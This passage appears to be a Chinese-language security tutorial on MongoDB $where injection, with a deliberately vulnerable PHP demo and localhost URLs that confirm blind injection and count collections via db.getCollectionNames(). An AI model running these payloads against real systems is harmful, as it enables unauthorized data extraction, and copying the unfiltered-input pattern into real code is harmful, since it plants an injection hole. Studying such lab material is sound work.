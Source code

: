 另一个 demo

在 Mongdb 中可以使用$where 操作符。相当于 sql 语句中的 where 限制语句。mongodb 中的$where 操作符常常引入一个 js 的函数来作为限制条件，当 js 函数中的字符串存在未过滤的用户输入时，注入就产生了。

放 demo：

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->news; //选择集合
$news = $_GET['news'];
$function = "function() {if(this.news == '$news') return true}";
echo $function;
$result = $coll->find(array('$where'=>$function));
if ($result->count()>0) {
    echo '该新闻存在';
}else{
    echo '该新闻不存在';
}
?>

```

为了测试，我建立了两个集合，一个是 news 集合，查询过程中存在注入。另一个是 user 集合，我们要注入得到其中的数据。

代码中的 this.news 指的就是表中的 news 栏（字段），上面的代码翻译成 sql 语句就是：

> select * from news where news='$news'

该 demo 的注入方式可以参考如下：

> http://127.0.0.1/3.php?news=test

返回正常

> http://127.0.0.1/3.php?news=test'

返回错误

> http://127.0.0.1/3.php?news=test'%26%26'1'=='1

返回正常

> http://127.0.0.1/3.php?news=test'%26%26'1'=='2

返回错误

至此检测出注入，开始获取数据。

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length>0%26%26'1'=='1

返回正常，集合数大于 0

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length==5%26%26'1'=='1

返回正常，集合数等于 5
